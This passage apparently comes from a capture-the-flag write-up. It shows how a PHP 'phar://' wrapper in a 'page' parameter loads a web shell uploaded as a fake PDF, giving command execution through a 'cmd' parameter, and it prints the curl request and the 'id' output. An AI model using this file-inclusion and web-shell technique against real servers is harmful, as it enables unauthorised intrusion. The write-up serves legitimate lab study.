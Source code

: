 I know that file is at `/var/www/html/uploads/ea409d50349a8436fe49f7ec66aa6132/shell.pdf`, so I can visit:

```

http://10.10.11.229/shop/index.php?page=phar:///var/www/html/uploads/ea409d50349a8436fe49f7ec66aa6132/shell.pdf/shell&cmd=id

```

And it runs the given command, `id`:

```

oxdf@hacky$ curl 'http://10.10.11.229/shop/index.php?page=phar:///var/www/html/uploads/ea409d50349a8436fe49f7ec66aa6132/shell.pdf/shell&cmd=id'
uid=1001(rektsu) gid=1001(rektsu) groups=1001(rektsu)

```

That’s a super cool trick!